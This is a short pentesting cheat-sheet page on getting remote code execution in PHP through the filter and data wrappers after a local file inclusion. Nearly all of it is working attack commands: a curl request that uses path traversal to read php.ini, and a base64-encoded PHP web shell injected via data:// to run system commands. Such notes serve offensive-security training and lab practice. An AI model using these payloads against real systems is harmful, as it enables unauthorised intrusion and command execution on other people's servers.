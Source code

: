 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RCE

## PHP Wrappers

### allow\_url\_include

The [data](rce.md#data) and [input](rce.md#input) wrappers depend on the PHP configuration `allow_url_include` (disabled by default). The PHP config file is under:

* `/etc/php/X.Y/apache2/php.ini` for Apache
* `/etc/php/X.Y/fpm/php.ini` for Nginx

{% code overflow="wrap" %}
```shell
# Using LFI & the PHP filter to read the configuration file
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
# Searching for the allow_url_include option
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
{% endcode %}

### Data

The [data wrapper](https://www.php.net/manual/en/wrappers.data.php) can be used to include external data.

{% code overflow="wrap" %}
```shell
# Encoding a basic PHP web shell (base64 -> URL)
echo '<?php system($_GET["cmd"]); ?>' | base64 | jq -sRr @uri
# Using the data wrapper to decode the string and get RCE
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
{% endcode %}


[^1]: Remote File Inclusion